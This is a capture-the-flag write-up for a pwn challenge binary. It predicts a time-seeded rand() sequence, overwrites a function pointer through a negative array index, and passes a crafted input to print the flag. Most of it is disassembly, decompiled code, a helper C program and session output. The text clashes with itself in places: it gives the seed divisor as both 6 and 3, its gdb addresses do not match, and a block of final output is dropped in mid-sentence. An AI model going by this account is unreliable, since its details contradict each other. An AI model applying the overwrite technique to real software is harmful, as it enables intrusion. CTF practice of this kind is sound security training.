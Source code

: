# Writeup

We are given a binary to pwn.

```
$ checksec solve
[*] '/pctf23/chall1/solve'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Executing the binary we are asked to guess four numbers in a row
```
$ ./solve 
Welcome to the game
Guess four numbers in a row to pass to next level
Enter your guess: 
```
Disassembling the main ```

Write a few words about the game ||||||||||

So now give me two of your lucky numbers and both must be less than 1000: 

-12 -211

You're a good story teller. Here's the flag.

p_ctf{s@y_t|k|28|8|d|g_st0ry}

```
```
gef➤  disassemble main
Dump of assembler code for function main:
      0x0000000000001657 <+0>:     endbr64 
   0x000000000000165b <+4>:     push   rbp
   0x000000000000165c <+5>:     mov    rbp,rsp
   0x000000000000165f <+8>:     sub    rsp,0x20
   0x0000000000001663 <+12>:    mov    DWORD PTR [rbp-0x14],edi
   0x0000000000001666 <+15>:    mov    QWORD PTR [rbp-0x20],rsi
   0x000000000000166a <+19>:    mov    rax,QWORD PTR [rip+0x29af]        # 0x4020 <stdout@GLIBC_2.2.5>
   0x0000000000001671 <+26>:    mov    ecx,0x0
   0x0000000000001676 <+31>:    mov    edx,0x2
   0x000000000000167b <+36>:    mov    esi,0x0
   0x0000000000001680 <+41>:    mov    rdi,rax
   0x0000000000001683 <+44>:    call   0x1190 <setvbuf@plt>
   0x0000000000001688 <+49>:    call   0x1180 <getegid@plt>
   0x000000000000168d <+54>:    mov    DWORD PTR [rbp-0x4],eax
   0x0000000000001690 <+57>:    mov    edx,DWORD PTR [rbp-0x4]
   0x0000000000001693 <+60>:    mov    ecx,DWORD PTR [rbp-0x4]
   0x0000000000001696 <+63>:    mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000001699 <+66>:    mov    esi,ecx
   0x000000000000169b <+68>:    mov    edi,eax
   0x000000000000169d <+70>:    mov    eax,0x0
   0x00000000000016a2 <+75>:    call   0x1130 <setresgid@plt>
   0x00000000000016a7 <+80>:    mov    edi,0x0
   0x00000000000016ac <+85>:    call   0x1170 <time@plt>
   0x00000000000016b1 <+90>:    mov    rcx,rax
   0x00000000000016b4 <+93>:    movabs rdx,0x2aaaaaaaaaaaaaab
   0x00000000000016be <+103>:   mov    rax,rcx
   0x00000000000016c1 <+106>:   imul   rdx
   0x00000000000016c4 <+109>:   sar    rcx,0x3f
   0x00000000000016c8 <+113>:   mov    rax,rdx
   0x00000000000016cb <+116>:   sub    rax,rcx
   0x00000000000016ce <+119>:   mov    edi,eax
   0x00000000000016d0 <+121>:   call   0x1150 <srand@plt>
   0x00000000000016d5 <+126>:   lea    rax,[rip+0xa6d]        # 0x2149
   0x00000000000016dc <+133>:   mov    rdi,rax
   0x00000000000016df <+136>:   call   0x1110 <puts@plt>
   0x00000000000016e4 <+141>:   lea    rax,[rip+0xa75]        # 0x2160
   0x00000000000016eb <+148>:   mov    rdi,rax
   0x00000000000016ee <+151>:   call   0x1110 <puts@plt>
   0x00000000000016f3 <+156>:   mov    eax,0x0
   0x00000000000016f8 <+161>:   call   0x1312 <random_check>
   0x00000000000016fd <+166>:   test   eax,eax
   0x00000000000016ff <+168>:   je     0x170b <main+180>
   0x0000000000001701 <+170>:   mov    eax,0x0
   0x0000000000001706 <+175>:   call   0x1587 <vuln>
   0x000000000000170b <+180>:   mov    eax,0x0
   0x0000000000001710 <+185>:   leave  
   0x0000000000001711 <+186>:   ret    
End of assembler dump.
```
We see that the srand function gets time(0)/6 as the parameter

```
undefined8 main(void)

{
  __gid_t __rgid;
  int iVar1;
  time_t tVar2;
  
  setvbuf(stdout,(char *)0x0,2,0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  tVar2 = time((time_t *)0x0);
  srand((uint)(tVar2 / 3));
  puts("Welocome to the game");
  puts("Guess four numbers in a row to pass to next level");
  iVar1 = random_check();
  if (iVar1 != 0) {
    vuln();
  }
  return 0;
}
```
The random function in c gives the same sequence of random numbers with a constant seeder. So the seed here is the (current_time)/6
we write a small c program to find the sequence
```
#include<stdio.h>

int main(){
    srand(time(0)/3);
    printf("Randomly generated numbers are: \n");
    for (int i = 0; i < 5; i++)
        printf(" %d\n", rand() % 1000);
}
```
Using the script, we get the random numbers
```
Randomly generated numbers are: 
 178
 164
 78
 239
 823
 ```
 ```
 Welcome to the game
Guess four numbers in a row to pass to next level
Enter your guess: 178
[1/4] Your guess was right.
Enter your guess: 164
[2/4] Your guess was right.
Enter your guess: 78
[3/4] Your guess was right.
Enter your guess: 239
[4/4] Your guess was right.

Write a few words about the game: 
```
We can see that there are two story functions one is hard, and the other is easy.

```
gef➤  info functions
All defined functions:

Non-debugging symbols:
...
0x00000000000012c9  calculate_desc
0x0000000000001312  random_check
0x00000000000013e1  easy_set_winner
0x00000000000014b4  hard_set_winner
0x0000000000001587  vuln
0x0000000000001657  main
...
```

Checking all the variables
```
gef➤  info variables
All defined variables:

Non-debugging symbols:
...
0x0000000000004010 check
...
0x0000000000004040 fun
```

```
gef➤  p easy_set_winner 
$1 = {<text variable, no debug info>} 0x13e1 <easy_set_winner>
gef➤  p hard_set_winner 
$2 = {<text variable, no debug info>} 0x14b4 <hard_set_winner>
gef➤  x 0x0000000000004040
0x4260 <check>:	0x000014b4
```
We can see that check points to the hard_set_winner which we need to change to easy_set_winner

Calculating the difference between them we get 0x14b4-0x13e1 = 211

Also calculating the difference between check and fun :

0x4040 - 0x4010 = 48

as we know that fun stores integer each index is of four.
So we divide 48/(size of int) = 12

To reach the check variable from fun variable we need to subtract -12 from the fun variable. 
And then ,
So in order to change the check function to point to easy_set_winner we need to subtract -211 from hard_set_function.

Examining the easy_set_winner function in ghidra
```

void easy_set_winner(undefined8 param_1,undefined8 param_2)

{
  int iVar1;
  FILE *__stream;
  long in_FS_OFFSET;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  iVar1 = calculate_desc(param_1,param_2);
  if (iVar1 == 0x4d8) {
    local_58 = 0;
    local_50 = 0;
    local_48 = 0;
    local_40 = 0;
    local_38 = 0;
    local_30 = 0;
    local_28 = 0;
    local_20 = 0;
    __stream = fopen("flag.txt","r");
    fgets((char *)&local_58,0x40,__stream);
    puts("You\'re a good story teller. Here\'s the flag.");
    puts((char *)&local_58);
  }
  else {
    printf("Youe story was not good.");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
We can see that it checks if the value of ascii character we entered in the story is equal to 0x4d8(1240) 
so from the ascii table, we get | has ascii value of 124, so we enter the story as ||||||||||||(10 times |)

```
Write a few words about the game ||||||||||
So now give me two of your lucky numbers and both must be less than 1000: 
-12 -211
You're a good story teller. Here's the flag.
p_ctf{s@y_t|k|28|8|d|g_st0ry}
```